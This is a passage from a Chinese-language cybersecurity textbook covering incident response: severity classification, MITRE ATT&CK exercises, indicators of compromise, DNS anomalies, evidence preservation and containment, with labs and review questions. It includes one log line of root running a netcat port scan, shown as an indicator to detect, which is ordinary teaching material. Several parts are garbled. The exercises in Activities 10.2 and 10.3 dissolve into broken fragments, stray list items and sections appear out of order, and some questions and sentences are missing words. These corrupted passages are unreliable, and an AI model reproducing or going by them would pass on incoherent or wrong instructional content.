**识别安全事件指标。** 告警源于入侵检测和防御系统、安全信息和事件管理系统（SIEM）、反病毒软件、文件完整性检查软件和第三方监控服务。日志由操作系统、服务、应用程序、网络设备和网络流生成。公开信息关于在“野外”或受控实验室环境中检测的新漏洞和利用程序。组织内部人员或外部来源报告可能表明安全事件正在进行的可疑活动。

**解释策略、程序和剧本如何引导事件响应工作。** 事件响应策略是组织事件响应程序的基石。该策略应编写为指导高层次工作，并为事件响应提供授权。程序提供了`CSIRT`成员在响应事件时所需的详细战术信息。`CSIRT`团队通常会开发剧本（playbooks），描述在发生特定类型网络安全事件时将遵循的特定程序。

**了解事件响应小组应代表多样化的利益相关者。** 核心事件响应小组通常由具有事件响应特定专业知识的网络安全专业人员组成。除了核心团队成员外，`CSIRT`可能包括技术领域专家、IT 支持人员、法律顾问、人力资源人员以及公关和营销团队的代表。团队还需要与内部和外部利益相关者协调，包括高层领导、执法部门和监管机构。

**解释如何根据攻击向量对事件进行分类。** 安全事件的常见攻击向量包括外部/可移动介质、损耗、网络、电子邮件、仿冒、不当使用、设备丢失或被窃以及/未知来源。

**解释响应团队如何对事件的严重性进行分类。** 事件的功能影响（functional impact）是其对组织的损害程度。经济影响（economic impact）是组织遭受的财务损失金额。除了衡量安全事件的功能和经济影响外，组织还应该衡量服务不可用的时间和恢复工作。最后，涉及事件的数据性质也会作为信息影响（information impact）对严重性做出贡献。

## 能够使用框架描述威胁和攻击，并使用分析技术对其建模。

如`Diamond Model`（钻石模型）、`MITRE ATT&CK`框架以及洛克希德·马丁的`Cyber Kill Chain`（网络攻击链）提供了评估和描述威胁的方法。使用威胁模型可以帮助通过识别漏洞更全面地理解威胁。`ATT&CK`等工具还为威胁提供了一个广泛的标准分类法，允许你将在兼容该框架的工具中使用这些数据。包括`开源测试方法论手册 (OSS TMM)`和`OWASP 测试指南`在内的工具可以帮助你开发稳健的策略，以针对这些框架中识别出的攻击进行系统测试。

## 实验活动

### 活动 9.1：事件严重分类

你是一家大型网络安全事件响应小组的负责人，该公司目前正遭受网站的拒绝服务（DoS）攻击。此攻击阻止了该机构向客户销售产品，并且在事件解决之前，可能会导致每天产生至少 200 万美元的收入损失。

攻击来自许多不同的源，你已经耗尽了所有可用的响应技术。你目前正在寻找一个可以协助响应的外部合作伙伴。

请使用本章描述的标准对此事件进行分类。为功能影响、经济影响、恢复努力和信息影响分配分类评分。请为你的每项分配提供理由。

### 活动 9.2：事件响应阶段

识别与以下各项活动相对应的事件响应过程的正确阶段：

| 活动 | 阶段 |
| --- | --- |
| 召开教训总结会议 | |
| 接收来自员工的关于恶意软件感染的报告 | |
| 升级组织的防火墙以阻止新类型的攻击 | |
| 在消除事件后恢复正常运行 | |
| 识别攻击者和受攻击的系统 | |
| 使用`SIEM`解释日志条目以识别潜在事件 | |
| 组装进行事件调查所需的硬件和软件 | |

### 活动 9.3：制定事件通信计划

你是一家大型电子商务网站的`CSIRT`负责人，你目前正在响应一起安全事件，你认为攻击者使用了`SQL 注入`攻击从你的后端数据库中窃取了交易记录。

目前，只有核心`CSIRT`成员正在响应。请制定一份通信计划，描述为你认为需要通知的内部和外部利益相关者通信的性质、时机和受众。

### 活动 9.4：探索 ATT&CK 框架

在本次练习中，你将使用`ATT&CK`框架来分析一个威胁。你可能想选择一个最近在新闻中看到的泄露案例，或者影响过你工作过的组织的案例。如果脑中没有合适的，2019 年的第一资本（Capital One）数据泄露是一个非常有用的例子，你可以通过快速搜索在多处找到该漏洞利用的细节。

#### 第一部分：构建威胁概况

1. 列出你对该入侵或漏洞利用的已知信息，包括关于威胁行为者的细节、发生了什么、使用了哪些工具以及你能找到的尽可能多的细节。
2. 结合相应的`ATT&CK`矩阵标题对你的列表进行检查。你是否有与标题匹配的条目？
3. 如果你仍然缺乏数据，你应该继续搜索或寻找另一个案例进行分析！

#### 第二部分：分析

1. 现在你已经有了基本概况，请遵循矩阵中的详细列表，将威胁与其对应的`ATT&CK`技术、威胁行为者和其他细节匹配起来。
2. 将每个数据点匹配到相应的`ATT&CK`条目。
3. 审查每个条目的细节，以便你熟悉它们。


# 第 10 章

## 事件检测与分析

响应安全事件和网络事件是网络安全分析师的常见任务。为了做到这一点，你需要了解如何检测和分析入侵指标（`IoCs`）、获取证据并保存证据。安全人员可能会遇到基于网络的`IoCs`，例如过度或异常的带宽消耗、探测和扫描以及非法设备，了解如何识别和理解它们对于安全从业人员来说至关重要。主机和应用程序问题也是频繁的`IoCs`，了解识别它们需要理解主机性能问题、恶意软件以及更具针对性的攻击。了解要寻找什么、如何找到它们以及你的响应方案是什么，是事件响应活动的重要组成部分。

在本章中，你将学习入侵指标，包括从带宽使用、数据外泄到扫描、探测和拒绝服务攻击的常见网络事件。在探索`IoCs`之后，你将探索证据获取概念，如保护监管链（chain of custody）、验证数据完整性，以及法律留存（legal holds）如何影响保存要求。

## 入侵指标

入侵指标（`IoCs`）由收集有关活动、事件和行为的信息组成，这些信息通常与潜在恶意行为相关。组织使用各种安全工具和手动流程监控`IoCs`，寻找能够让其检测潜在问题或及时响应活跃入侵的信息。

常见的入侵指标包括但不限于以下内容：

*   异常的网络流量，包括异常的出站网络流量、意外的点对点流量、指向异常端口或 IP 地址的活动以及类似事件
*   数据库或文件共享读取卷的增加
*   文件系统、`Windows Registry`和配置文件的可疑更改
*   人类使用系统时不常的流量模式
*   登录和权限使用的异常，包括地理位置和时间上的异常
*   拒绝服务活动和痕迹
*   异常的 DNS 流量

捕、分析和关联`IoCs`的能力对于组织安全和事件响应至关重要，这使得`IoC`馈成为防御操作的重要组成部分。`IoC`馈提供了有关威胁和威胁攻击者的社区信息，例如：

*   与恶意活动者或活跃威胁相关的`IP`地址和主机名
*   恶意软件、命令控制服务器和受感染网站使用的域名
*   恶意软件的哈希值（Hashes）
*   基于行为的威胁攻击和恶意软件信息

你可以通过`https://otx.alienvault.com`探索`IoC`示例，在那里你可以发现数百万指标。图 10.1 显示了`OTX`的仪表板。首先要注意之一是，域名可能并不真正有用——你需要了解`apple-icloud-mx.com`，图 10.2 显示了可能由域名生成算法创建的域名的细分分析。

`IoC`馈既可以商业订阅馈的形式提供，也可以作为通过 Open Exchange 发现开放免费馈源提供。与任何第三方数据一样，组织需要确定馈源以及任何使用数据的可靠性水平，并且必须考虑他们将对哪些数据采取行动、将如何使用这些数据以及如何将其集成到他们的环境中。

接下来我们将查看如何检测、捕获、分析和关联`IoCs`。

### 调查 IoCs

在接下来的几页中，我们将探索`IoCs`的示例，包括在哪里找到有关`IoCs`的数据以及识别它们的基本技术。由于`IoCs`差异很大，你应该将这一系列示例视为起点而不是完整的列表。当你查看每种类型的`IoC`时，考虑你可以使用哪些类型的工具和技术来捕获有关`IoC`的数据，你将如何判断该行为是异常但合法的流量还是可能指示入侵，以及你将分配什么样的阈值以确保可能的问题被检测并告警，同时不会让安全从业人员过载。

### 异常的网络流量

异常的网络流量是最常见的入侵指标之一，但由于旨在使其难以查看的对抗技术，识别它可能是一项挑战。攻击者将使用如`TLS`等加密协议来保护网络流量，将流量封装在看似无害的数据流中，并以其他方式隐藏其活动以避免检测。

一种基于网络和系统的`IoC`配置文件关注使用异常端口传输流量。常见服务的典型端口有详尽的文档，虽然组织可能会选择使用备用端口以允许系统运行多个独立服务，或限制默认端口扫描的影响，但在异常端口上接收流量的服务可能指示着入侵。因此，许多工具会检查网络流量并标记异常或意外的服务端口。

异常的通信不仅是我们在第 3 章中看到的信标行为（beaconing）。它可能包括攻击或信息收集流量，例如端口和漏洞扫描、数据中心中的点对点流量（在这些系统中本应向外通信而非相互通信），或者任何不符合典型模式的各种流量场景。与我们在这里审查的许多 IoC（入侵指示器）一样，行为和模式识别可以帮助识别异常通信。防火墙和适当的信任边界可以通过防火墙日志检测问题，并通过不允许异常流量成功穿越网络来限制影响。图 10.3 显示了一个示例，其中攻击者已访问了数据中心中的单个系统，并正在使用该系统探测同一网络网段中的其他系统。


FIGURE 10.3 来自受损系统的探测

监控出站网络流量也可以帮助识别 IoC。你可以观察到许多出站流量指标，包括以下：

*   通往意外位置的流量
*   异常类型的出站流量，如`RDP`、`SSH`或文件传输
*   异常流量的出站流量
*   出站 DNS 查询
*   针对意外域名或在信誉工具中标记为恶意的域名的 DNS 查询
*   异常时间的出站流量

### 资源使用的增加

资源利用率可以通过多种方式指示攻击者采取的操作。攻击者可能会因为使用工具或程序而消耗 CPU 或内存，或者他们可能会收集数据占用更多磁盘空间。随着数据传输、扫描运行或其他活动的发生，网络使用量可能会增加。因此，基于资源使用的 IoC 通常被用于帮助识别可能指示入侵的异常行为。

另一个经常被引用的 IoC 是数据库读取量。它既可以是入侵的有用指标（因为异常峰值可能表明攻击者正在从数据库中收集数据），在没有关于驱动数据库使用增加的额外信息的情况下，也很难以识别其与攻击或入侵有关。

图 10.4 显示了来自`PoWA`（PostgreSQL Workload Analyzer）的数据，这是一种`Postgres`监控工具。虽然`PoWA`提供了许多数据点，但这张来自`PoWA`免费在线演示网站的图表提供了每秒字节块访问的可视示例。你可以看到图表中间既有缓存命中也有磁盘读取增加，然后在最后返回到基准线。


FIGURE 10.4 Postgres 在 PoWA 中的的数据库读取量

这并不意味着每次资源使用的增加都意味着存在入侵。相反，这意味着其他 IoC 通常会与资源使用指标结合起来，在共同评估时可能有助于识别入侵。

### 异常的用户和账户行为

基于行为的 IoC 是极其强大的，因为攻击者几乎必须做一些用户、服务和系统通常不会做的事情。这意味着如果你能识别异常通信，你可能就能检测到它们。防火墙和适当的信任边界可以通过防火墙日志检测问题，并通过不允许异常流量成功穿越网络来限制影响。

以下是一些基于行为的 IoC 示例：

*   异常登录时间
*   访问敏感文件
*   执行不常见的命令
*   账户权限的意外更改

### 文件和配置修改

文件的更改，特别是配置文件或其他对攻击者有用的其他文件，是常见的 IoC。`OSSEC`（开源主机入侵检测系统）和`Tripwire`充当入侵检测系统。

这是一个用户以 root 身份运行`netcat`的日志示例：

```
** Alert 25109428.105: -`syslog**/var/log/syslog-ng**
2023 Mar 11 00:03:15 example sudo:     root TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/usr/home/nc -z -v 192.168.10.1
Rule: 2100 (level 3) -> 'Successful sudo executed'
User: root
Mar 11 03:14:30 example sudo:     root
```

拒绝服务（DoS）攻击可以是来自单个系统的直接攻击，也可以是分布式的。分布式拒绝服务（DDoS）攻击如图 10.5 所示。

图 10.5 拒绝服务攻击

源自你网络内部系统的拒绝服务攻击是另一种入侵陷物指示（IoC）示例。然而，它们并不总是意味着系统或设备本身已被攻破。历史上，放大攻击利用了服务漏洞来放大流量，而无需底层的服务或系统被攻破。

尽管 DoS 攻击可能给调查工作带来挑战，但 DoS 攻击的发生就是一种 IoC。

最后，一种看起来像 DoS 攻击，但通常与漏洞利用尝试或其他非 DoS 活动相关的 IoC，是对同一个文件或目录的重复请求。请记住，IoC 可能表现为某些其他活动，或者在发现时可能无法理解其含义。

### 异常 DNS 流量

许多组织监控发送到其 DNS 服务器的查询，并使用威胁和信誉馈送将其与恶意站点列表进行比较。IoC 馈送可能包含活动威胁常用的特定 IP 地址和主机名，允许 DNS 查询和服务器监控帮助识别受感染的系统。

监控 DNS 相关的 IoC 通常关注以下几点：

*   DNS 查询的异常水平，特别是针对异常域名的查询
*   异常的域名查询，通常是针对随机生成或机器生成的主机名，如`jku845.com`
*   大量的 DNS 查询失败，可能表明使用了嵌入在恶意软件中的自动生成的 DNS 名称

根据恶意软件的复杂性，与 DNS 和主机名相关的入侵指示可能在一段时间内有效，也可能随着恶意软件根据算法或命令控制更新切换新名称而快速更新。

DNS 隧道是另一个可以使用 IDS 和 IPS 等工具监控的潜在问题。通过 DNS 查询传输隧道命令与控制信息，或包含编码或加密数据的 DNS 查询，都是需要关注的潜在 IoC。

另一种类型的异常 DNS 流量是使用快速闪（fast-flux）DNS，它可以快速更改域的 IP 地址。攻击者使用快速闪 DNS 即使在某些主机被禁用也能保持其命令控制基础设施的活跃，观察涉及快速闪 DNS 的查询将表明系统可能已被攻破——或者用户可能点击了指向恶意网站的链接！

### 结合 IoC

有效利用入侵指示通常需要结合多个 IoC 的数据和分析来识别攻破行为。在攻破场景中，单个 IoC 孤立发生的较少，尽管这种情况确实发生。因此，组织寻找方法将信息和威胁馈送、日志和日志分析工具、以及 IoC 馈送和检测机制整合到一个综合系统中，该系统将保持更新，并查看多个 IoC 相加起来是否构成一个可能的攻破行为。

## 证据的获取与保护

事件响应期间的证据获取可以采取多种形式，从制作副本或文件到获取虚拟机快照，再到使用司法文件或驱动器副本。

### 保护

无论数据类型和获取方法如何，证据的关键概念是`preservation`（保护）。保护数据需要获取数据、验证获取过程和数据，并以安全且记录的方式进行存储。如果证据可能用于法律诉讼，或者涉及执法部门，保护通常还需要监管链（chain-of-custody）文档记录。

### 监管链

`chain-of-custody`（监管链）过程跟踪证据贯穿其整个生命周期，包括证据的收集、保护和分析。这需要记录谁在何时、何地、何何以及如何存储、使用或传输了数据访问权限。完整的监管链记录有助于确保数据没有被不当访问或修改。

### 法律留存

`legal holds`（法律留存）是电子发现（eDiscovery）过程的一部分。当诉讼即将开始或正在进行时，法律顾问将向组织发布法律留存通知。受影响组织的数据保管员将收到保护数据的通知，包括可能作为正常业务流程的一部分被删除或移除的数据。组织有义务作为法律程序的一部分保护并提供这些数据。如果组织预计将面临诉讼或其他法律行动，它们也可以自己启动法律留存程序。

### 验证数据完整性

保护活动的重要部分是验证数据完整性。为了验证捕获过程没有无意中创建更改，要确保捕获并保留的数据与原始数据匹配。虽然这对于证据和法律案件至关重要，但对于组织调查来说，确保错误数据不会引导调查人员得出错误结论同样重要。

数据完整性验证通常使用哈希工具完成，工具根据原始文件、卷或驱动器计算哈希值，然后使用相同的算法对复制的证据计算哈希值。这些哈希值在副本副本时会进行存储和验证，以确保使用的是匹配的副本，如图 10.6 中的 FTK Imager 所示。


图 10.6 成功镜像后显示哈希值的 FTK Imager

## 总结

描述 IoC（失陷指标）对事件检测和分析的重要性。

列并理解常见的 IoC，包括异常网络流量、意外的点对点流量；指向异常端口或 IP 地址的活动；数据库或文件共享读取量的增加；对文件系统、`Windows Registry`（Windows 注册表）和配置文件的疑更改；不符合人类使用系统的典型流量模式；以及登录和权限使用的异常，包括地理和时间异常、拒绝服务活动和痕迹，以及异常的 DNS 流量。

调查并描述 IoC。

描述与网络流量、资源使用、用户和账户行为、文件和配置修改、权限使用、拒绝服务以及 DNS 流量相关的 IoC。解释与每个主题相关的常见 IoC 示例，你可能如何利用这些 IoC，以及日志文件和其他证据中的哪些信息与识别失陷指标有关。

理解证据的获取和保护。

## 复习题

1. 以下哪项是安全事件的示例？

   1. 攻击者访问文件
   2. 管理员更改设置
   3. 入侵进入建筑
   4. 前员工导致崩溃

2. 在事件响应过程的哪个阶段，组织会实施旨在减少的措施？

   1. 准备
   2. 检测和分析
   3. 抑制、消除和恢复
   4. 事件后活动

3. Alan 负责检测和分析能力。他希望购买一种能够结合多种日志记录以检测安全事件的系统。

   1. `IPS`
   2. `IDS`
   3. `SIEM`
   4. 防火墙

4. Ben 正在对事件的功能影响进行分类。该事件导致组织约 30% 的员工无法使用电子邮件。根据`NIST`标准，Ben 应如何分类此事件的功能影响？

   1. 无
   2. 低
   3. 中
   4. 高

5. 事件响应过程的哪个阶段包含了限制正在损害的措施？

   1. 准备
   2. 检测和分析
   3. 抑制、消除和恢复
   4. 事件后活动

6. 对`Kill Chain`的常见批评是什么？

   1. 并非所有威胁都是致命的。
   2. 它过于详细。
   3. 它包含了防御之外的行为。
   4. 它过度关注内部威胁。

7. Karen 正在响应一起由于入侵者窃取文件引起的安全事件。这些文件包含了受保护基础设施的未加密信息。Karen 应如何评估此事件的信息影响？

   1. 无
   2. 隐私泄露
   3. 专有泄露
   4. 完整性丢失

8. Matt 担心组织的日志记录由于时钟不同步而存在冲突戳。他可以使用什么协议来同步整个企业的时钟？

   1. `NTP`
   2. `FTP`
   3. `ARP`
   4. `SSH`

9. 以下哪种文档类型将概述响应安全事件的`CSIRT`的权限？

   1. 策略
   2. 流程
   3. 剧本 (Playbook)
   4. 基准

10. 跨站脚本攻击是哪种威胁向量的示例？

    1. 仿充
    2. 电子邮件
    3. 耗尽
    4. Web

11. `Cyber Kill Chain`的哪个阶段包含了为攻击者创建持久后门访问？

    1. 交付
    2. 漏洞
    3. 安装
    4. C2

12. Robert 正在完成其组织拟议的事件响应政策草案。谁是签署该政策的最合适人？

    1. `CEO`
    2. 安全总监
    3. `CIO`
    4. `CSIRT`负责人

13. 以下哪项不是事件响应中抑制、消除和恢复阶段的目标之一？

    1. 检测正在发生的事件。
    2. 实施抑制策略。
    3. 识别攻击者。
    4. 消除事件的影响。

### 问题

14. Renee 正在响应一起安全事件，该事件导致其公司运营关键的网站无法访问。她不确定恢复网站需要多时间和精力。Renee 应该如何对恢复工作进行分类？

    1. 常规（Regular）
    2. 补充（Supplemented）
    3. 扩展（Extended）
    4. 不可恢复（Not recoverable）

15. 下列哪项是耗尽攻击（attrition attack）的示例？

    1. SQL 注入
    2. 笔记本电脑被盗
    3. 用户安装文件共享软件
    4. 破解密码攻击

16. 谁是事后总结会议的最佳协调员？

    1. 首席执行官 (CEO)
    2. `CSIRT`领导
    3. 独立协调员
    4. 第一响应人员

17. 下列元素通常不会出现在事件响应策略中？

    1. `CSIRT`的性能指标
    2. 网络安全事件的定义
    3. 角色、职责和权限级别的定义
    4. 系统重建程序

18. 路径中攻击（on-path attack）是哪种威胁向量的示例？

    1. 耗尽攻击（Attrition）
    2. 冒充（Impersonation）
    3. 网络（Web）
    4. 电子邮件（Email）

19. Tommy 是其组织的`CSIRT`团队负责人，正在响应一个新发现的安全事件。哪种文档最可能包含他在响应工作早期可能遵循的逐步说明？

    1. 策略（Policy）
    2. 基准（Baseline）
    3. 剧练手册（Playbook）
    4. 教科（Textbook）

20. Hank 正在响应一起安全事件，公司 CEO 的笔记本电脑被盗了。电脑经过了加密，但包含了有关公司员工的敏感信息。Hank 如何对此安全事件的信息影响进行分类？

    1. 无（None）
    2. 隐私泄露（Privacy breach）
    3. 专有泄露（Proprietary breach）
    4. 完整性丢失（Integrity loss）

4. 识别你知识中的空白。如果你在研究这项威胁，你会寻找哪些信息？你认为哪些信息是可以合理获取的，而哪些信息可能无法收集？

5. 根据你的发现，考虑你提交给领导层的报告将包含哪些内容。


证据通常作为事件响应活动、内部调查，以及由于待决或正在进行的法律诉讼中的法律保留（`legal holds`）的一部分而被获取和保护。法律保留可能要求暂停正常的数据销毁流程或程序，或限制数据寿命，或者可能需要制作独立的、可验证的副本。为了法律和警方调查会创建并维护监管链（`Chain-of-custody`）文档，如果调查可能成为法律程序的一部分，也可能创建此类文档。

# 审查日志文件并判断是否发生了事件

理解常见的日志文件以及需要寻找的内容，以确定记录的事件表明可能发生了事件，还是日志条目指示正常行为。

## 实验练习

### 活动 10.1：在 Alienvault 的 Open Threat Exchange 中探索 IoC

在此练习中，你将探索 Alienvault Open Threat Exchange 中的 `IoC` 示例。

1. 访问 `https://otx.alienvault.com` 并注册账户。
2. 登录并查看你的仪表板。注意那里有 `pulses`（脉冲），这是社区共享的威胁信息。
3. 选择 `Browse`（浏览）并查看一个 `pulse`。你应该看到如 `IoC` 等信息，你可以点击并查看。如果没有，请选择另一个 `pulse`。考虑以下问题：
   - 你将如何使用 `pulse` 中包含的信息？
   - 为什么你可能想订阅一个 `pulse`？
   - 你如何判断 `pulse` 的作者是否可信赖？
4. 返回仪表板并选择 `Indicators`（指标）。
5. 使用左侧的类型和角色选择器浏览感兴趣的指标。探索多种类型的指标，并考虑你可能如何在组织中使用每种检测。考虑以下问题：
   - 哪些类型会很有用？
   - 你还想要哪些信息？
6. 探索仪表板，并选择恶意软件项的可视化。点击一个主要的恶意软件家族并查看特征和恶意软件详情页。
   - 你能从页面中学到什么？
   - 相关的 `pulse` 告诉了你什么？
   - 你如何使用这些信息？

### 活动 10.2：识别异常登录活动

使用文本搜索检测恶意活动是安全专业人员的常见活动。你可以在此处找到为 Elasticsearch 上的机器学习 (`ML`) 设计的示例：`https://github.com/elastic/examples/tree/master/Machine%20Learning/Security%20Analytics%20Recipes`，尽管……

在此练习中，你将搜索恶意活动。

1. 导航到 `suspicious_login` 文件夹。
2. 导航到 `data` 文件夹。
3. 使用 `grep` 查找 `auth`。
4. 考虑以下内容：
   - 发生了什么？
   - 你如何做？
   - 是？
   - 你需要什么？

### 活动 10.3：法律保留与保护

在此练习中，你将为法律保留做准备。

1. 识别一种保护方法。
2. 他们需要什么？
3. 什么是法律，或规划。
4. 考虑以下内容：
   - 它将变成什么？
   - 它可能是什么？
   - 可能产生哪些担忧？
   - 会产生什么影响？
   - 可能产生什么费用？
5. 什么能让恢复正常？

## 复习题

1. Susan 需要跟踪已获取的证据。她需要什么文档？
   - 取证哈希值 (`Forensic hashes`)
   - 法律保留 (`Legal hold`)
   - 监管链 (`Chain of custody`)
   - `IoC` 评分
2. Hui 遵守法律保留，但知道她的组织在 45 天后会清除日志。她应该怎么做？
   - 通知法律顾问。
   - 删除日志。
   - 识别一种保护方法。
   - 不做任何更改。
3. Juan 想要验证他已取证镜像的驱动器的完整性。他应该选择哪个选项？
   - 将原始驱动器的哈希值与驱动镜像进行比较。
   - 将原始驱动器在磁盘上的文件大小与驱动镜像占用的空间进行比较。
   - 将厂商驱动器大小列表与驱动镜像占用的空间进行比较。
   - 使用 `PGP` 加密驱动和镜像并确保两个版本匹配。
4. Kathleen 想要确定她看到的流量对于她的网络来说是否异常。以下哪个选项最有助于判断流量水平对于正常周期间的该时间段是否是不典型的？
   - 启发式算法 (`Heuristics`)
   - 基准线 (`Baselines`)
   - 协议分析 (`Protocol analysis`)
   - 网络流日志 (`Network flow logs`)
5. Renee 想要采用开源的 `IoC` 馈。在采用时 Renee 最可能需要解决什么问题？
   - `IoC` 馈的成本
   - 馈的质量
   - 馈的更新频率
   - 馈的详尽程度
6. Chris 想要使用主动监控方法来测试他的网络。以下哪些技术是恰当的？
   - 收集 `NetFlow` 数据
   - 使用协议分析器
   - `ping` 远程系统
   - 启用 `SNMP`
7. 下列哪项不是 `IoC` 中常见的发现信息？
   - `IP` 地址
   - 域名
   - 系统镜像
   - 基于行为的信息
8. Cameron 想要能够检测针对其 Web 服务器的拒绝服务攻击。他应该避免使用哪个工具？
   - 日志分析
   - 流监控
   - `iPerf`
   - `IPS`
9. Sameer 发现日志信息显示，他认为是一个恶意的进程在 `Linux` 系统上每天在同一时间启动。他应该从何处开始寻找此类问题？
   - 他应该检查系统日志。
   - 他应该检查 `Task Scheduler`（任务计划程序）。
   - 他应该检查 `cron jobs`（定时任务）。
   - 他应该检查用户目录。
10. Jim 使用 `IoC` 馈来帮助检测针对其组织的新攻击。如果他的安全监控系统标记了 `IoC` 匹配，他首先应该做什么？
    - 关闭触发告警的系统
    - 审查告警以确定其发生原因
    - 检查网络日志以识别远程攻击者
    - 运行端口扫描以确定系统是否被入侵
11. Mark 在监控其 Web 服务器集群的网络流量时，发现流量大幅增加。他检查了入站流量的源地址，发现流量来自世界各地的不同系统。如果他认为这可能是一次攻击，他应该将其识别为什么？
    - 拒绝服务攻击
    - 分布式网络扫描
    - 基于 `DNS` 的攻击
    - 分布式拒绝服务攻击
12. Valentine 想检查系统是否存在未经授权的访问。哪两种类型的日志最可能包含此类信息？
    - 身份验证日志和用户创建日志
    - 系统日志和应用程序日志
    - 身份验证日志和应用程序日志
    - 系统日志和身份验证日志
13. Sayed 注意到远程系统多次使用相同的管理员用户 `ID` 但不同的密码尝试登录他所负责的系统。Sayed 最可能发现了什么？
    - 一个忘记了密码的用户
    - 一个损坏的应用程序
    - 暴力破解攻击
    - 配置错误的服务
14. 当 Susan 通过网络流监控路由器时，她看到网络流量水平突然降至零，流量图显示为一条直线。这可能发生了什么？
    - 采样率设置错误。
    - 路由器正在使用 `SNMP`。
    - 被监控的链路故障。
    - 正在发生 `DDoS` 攻击。
15. Leo 想要监控他的应用程序的常见问题。以下哪项不是监控应用程序问题的典型方法？
    - 上/下日志记录 (`Up/down logging`)
    - 系统日志记录
    - 性能日志记录
    - 事务日志记录
16. Greg 注意到他负责的一个 `Linux` 服务器上的用户账户在几秒钟内通过 `SSH` 连接了 10 台机器。哪种类型的 `IoC` 最符合这种行为？
    - 类似僵尸的行为
    - 端口扫描
    - 拒绝服务
    - 权限提升
17. Arun 想要监控异常的数据库使用情况。以下哪项最可能是恶意攻击者的迹象？
    - 数据库缓存命中次数增加
    - 往数据库的网络流量减少
    - 数据库磁盘读取增加
    - 数据库大小减小
18. Valerie 担心攻击者可能已经访问了她数据中心内的某个系统。以下哪项不是她应该监控的常见网络类 `IoC`？
    - 访问往非预期目的地的流量
    - 出站流量的异常增大
    - 系统内存消耗的增加
    - 在异常时间的出站流量
19. Alex 注意到他的 `Windows` 服务器主磁盘正在迅速填满。他应该做什么来确定是什么填满了驱动器？
    - 检查文件系统日志。
    - 检查安全日志。
    - 搜索大文件和目录。
    - 搜索文件更改。
20. Joseph 希望在他维护的系统上的用户行为偏离正常范围时收到通知。他使用工具捕获并分析一周的用户行为，并据此判断是否发生了异常行为。这种做法称为什么？
    - 模式匹配 (`Pattern matching`)
    - 基准建立 (`Baselining`)
    - 指纹识别 (`Fingerprinting`)
    - 用户建模 (`User modeling`)

# 第 11 章：抑制、根除与恢复

第 9 章，“构建应急响应计划”提供了根据美国国家标准技术研究院（`NIST`）倡导的过程构建和实施网络安全事件响应计划所需步骤的概述。在《计算机安全事件处理指南》（`Computer Security Incident Handling Guide`）中，`NIST` 概述了图 11.1 所示的四阶段事件响应过程。


图 11.1 事件响应过程 ¶ 来源：`NIST SP 800-61`：计算机安全事件处理指南 [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问日期：2023 年 2 月 15 日。

第 9 章的剩余部分提供了事件响应中“准备”和“事件后活动”阶段的概述。第 10 章，“事件检测与分析”涵盖了检测与分析阶段的细节，包括网络信息的来源。本章将探讨事件响应的抑制、根除与恢复阶段。

## 抑制损害

事件响应的抑制、根除与恢复阶段使组织从检测与分析阶段主要的被动式事件响应活动转向更主动的任务。一旦组织意识到网络安全事件正在发生，它就会采取行动，以最大限度地减少事件造成的损害并尽快恢复正常运行。

*抑制* 是该阶段的第一项活动，并且应该在分析人员确定事件正在发生后尽快开始。抑制活动旨在限制事件的范围和影响。事件的范围是指涉及的系统或个人数量——你可以将抑制理解为在现有事件周围建立一个围栏，防止其扩散到其他地方。事件的影响是指其对组织产生的结果。通过抑制事件，你限制了该事件影响的幅度。

在不同类型安全事件的背景下，抑制的含义完全不同。例如，如果组织正面临信用卡处理系统的数据正被积极外泄，应急响应人员可能会通过断开该系统与网络的连接来抑制损害，从而防止攻击者继续外泄信息。另一方面，如果组织正遭受针对其网站的拒绝服务攻击，断开网络连接只会帮助攻击者实现其目标。在这种情况下，抑制可能包括在 Internet 连接上放置过滤器，阻止所有来自攻击网络的所有入站流量，或阻止带有特定特征的 Web 请求。

遏制活动通常并非完美，往往会造成某些干扰正常业务运行的附带损害。考虑前一段中描述的两个例子：将信用卡处理系统从网络断开可能会导致交易停止，造成可能重大的业务损失。同样，阻止大范围的入站网络流量可能会使某些合法用户无法访问网站。事件响应人员在采取遏制策略时，必须理解其行为的潜在副作用，并将其与对组织的更大益处进行权衡。

## 分段 (Segmentation)

正如你在第 1 章中学习到的“今日网络安全分析师”，网络安全分析师经常使用`network segmentation`（网络分段）作为一种主动策略，防止未来安全事件的扩散。例如，图 11.2 所示的网络旨在将不同类型的用户隔离开，并与关键系统隔离开。能够访问访客网络的攻击者在不跨越网络防火墙的情况下，无法与属于员工或数据中心的系统进行交互。

`network segmentation` 被用作信息安全深度防御方法中的主动控制手段。除了作为主动控制外，`network segmentation` 可能在事件响应中起着至关重要的作用。在事件的早期，响应人员可能意识到部分系统已被入侵，但希望在确定其他适当响应之前，继续观察这些系统上的活动。然而，他们无疑希望保护网络上的其他系统免受这些可能受损的系统的影响。

图 11.3 展示了机构可能在事件响应过程中应用`network segmentation`的示例。网络安全分析师怀疑数据中心内的几个系统已被入侵，并建立了一个独立的虚拟局域网（`VLAN`）来遏制这些系统。该`VLAN`被称为隔离网络，与数据中心网络的其余部分隔离，并受严格防火墙规则控制。将系统放在此网段上提供了某种程度的隔离，防止它们破坏其他段上的系统，同时允许继续进行实地分析。


图 11.2 主动网络分段


图 11.3 用于事件响应的网络分段

## 隔离 (Isolation)

虽然`segmentation`确实限制了攻击者对网络其余部分的访问，但它有时还不足以达到遏制目标。网络安全分析师可能会决定使用更强的`isolation`（隔离）措施来切断攻击。在网络安全事件响应过程中可以使用两种主要的隔离技术：隔离受影响系统和隔离攻击者。

### 隔离受影响系统

隔离受影响系统简单来说是将分段提升到另一个水平。受影响系统与网络的其余部分完全断开，尽管它们仍然可以通过互联网相互以及与攻击者通信。图 11.4 展示了从分段策略中提取隔离`VLAN`并将其转换为隔离的示例。注意图 11.3 和图 11.4 展示了从分段策略中提取隔离`VLAN`并将其转换为隔离的示例。


图 11.4 用于事件响应的网络隔离

### 隔离攻击者

隔离攻击者是隔离策略中一种有趣的变体，取决于用于监控活动的`sandbox`（沙箱）系统的使用。有关蜜罐的更多信息，请参阅第 1 章。

## 移除 (Removal)

从网络中移除受损系统是网络安全分析师工具箱中最强大的遏制技术。如图 11.5 所示，移除与分段和隔离的区别在于，受影响的系统与网络完全断开。移除的具体细节取决于事件的情况以及事件响应人员的专业判断。


图 11.5 用于事件响应的网络移除

## 证据获取与处理 (Evidence Acquisition and Handling)

